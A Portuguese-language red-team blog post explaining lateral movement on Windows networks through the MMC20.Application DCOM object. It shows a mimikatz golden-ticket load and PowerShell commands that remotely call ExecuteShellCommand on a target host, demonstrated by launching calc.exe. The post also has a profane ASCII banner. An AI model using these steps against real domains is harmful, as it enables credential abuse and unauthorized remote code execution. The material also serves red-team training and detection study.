 ```yaml
---
layout: post
title: Lateral Movement Technique using Microsft MC20 Component Object (MMC20.Application)
author: nagini
author_url: 
image: /assets/banners/nag.png
description: "Entenda o que é o MMC20.Application e como utilizá-lo para movimentação lateral em uma rede"
toc: true
---
```


```
           ___
          (___)     .-----------.
   ____          ,- | fuck off! |
 _\___ \  |\_/| /   `-----------` 
\     \ \/ , , \ _ _
 \__   \ \ ="= //|||\
  |===  \/____)_)||||
  \______|    | |||||
      _/_|  | | =====
     (_/  \_)_)   
  _________________
 (                _)
  (__   '          )
    (___    _____)
        '--'
```

Aqueles que estão familiarizados com engagements em Red Team, devem conhecer técnicas
comuns de movimentação lateral, dentre elas, as mais comuns são WinRM, wmiexec/psexec,
smbexec, Scheduled Tasks... Porém, muitas das vezes ao realizar um procedimento tão conhecido
pode sempre acabar gerando algumas flags que denunciariam o engage dos operadores.

# Introdução

Introduzindo o cenário, após efetuar um Kerberoasting e conseguir um acesso administrativo
em um servidor comum, utilizei essa técnica para fazer a movimentação lateral, posteriormente
eu utilizaria essa técnica em todo o domínio com um golden ticket impersonated, tornando essa
movimentação possível sem necessidade de credenciais.

Mas para entender como essa técnica funciona, é preciso entender um pouco sobre [COM (Component
Object Model)](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model) e [DCOM (Distributed Component Object Model)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0)

# Component Object Model (COM)

COM é um sistema com um set de funções chamado de interface, com a finalidade de
criar componentes, objetos que serão posteriormente usados para interagir com outros
objetos. Eles podem ser instanciados em um processo comum, em uma thread ou até mesmo
remotamente

Basta utilizar qualquer linguagem do framework .NET para compilar um COM, a linguagem
e sua implementação são responsabilidades do programador.

# Distributed Component Object Model (DCOM)
 
Essa implementação torna possível a comunicação desses componentes pela rede, desde
que a interface exista nas duas máquinas. Cumprindo esse único requisito, você pode especificar
um UNC path ou diretamente o servidor e começar a comunicação, desde que você tenha tal
permissão.

Personificando golden ticket 
```powershell
PS> mimikatz.exe "kerberos::ptt C:\Tickets\gold.kirbi"
* File: 'C:\Tickets\gold.kirbi': OK
```

Com o ticket carregado na memória (personificado), você pode utilizar o próprio 
PowerShell para interagir localmente ou remotamente com algum componente, para
realizar a movimentação lateral, vamos trabalhar remotamente com a interface.

Antes de mais nada, utilizamos a função CreateInstance com o Macro GetTypeFromProgID
para nos conectarmos a interface remotamente, feito isso, podemos listar todas suas
funções

Para a exploração, vou usar a classe MMC20.Application da Microsoft, após estabelecer a 
conexão com ela, podemos listar as funções da interface e usar e abusar delas para comprometer
o servidor.

Realizando a conexão com a DCOM remotamente e listando suas funções

```PowerShell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.1.10"))
PS> $dcom.Document.ActiveView | Get-Member

Name                    MemberType                Definition
----                    ----------                ----------
ExecuteShellCommand     Method                    void ExecuteShellCommand(string, string, string, string)
```

Tendo em vista que a conexão foi estabelecida com sucesso, podemos 
invokar esse método, basta seguir sua definição.

Realizando conexão com a classe MMC20.Application (DCOM)
```powershell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.1.10"))
PS> $dcom.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)

C:\Windows\System32> tasklist | findstr "calc.exe"
calc.exe        6467 Console    1   3 922 K
```

